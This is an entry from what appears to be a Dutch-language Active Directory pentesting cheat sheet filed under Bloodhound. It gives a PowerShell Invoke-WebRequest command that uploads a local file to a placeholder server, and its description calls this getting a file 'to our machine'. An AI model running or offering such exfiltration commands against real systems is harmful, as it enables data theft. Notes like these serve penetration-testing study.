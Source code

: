 # 22. AD Introduction and Enum — Entry 68

## Categorie

Bloodhound

## Commando

```
Invoke-WebRequest -Uri "http://jouw-server-ip/upload" -Method Post -InFile "C:\pad\naar\bestand.txt" -ContentType "multipart/form-data"
```

## Omschrijving

```
Command to get a file to our machine
```

## Voorbeeld

_(empty)_

## Opmerkingen

_(empty)_


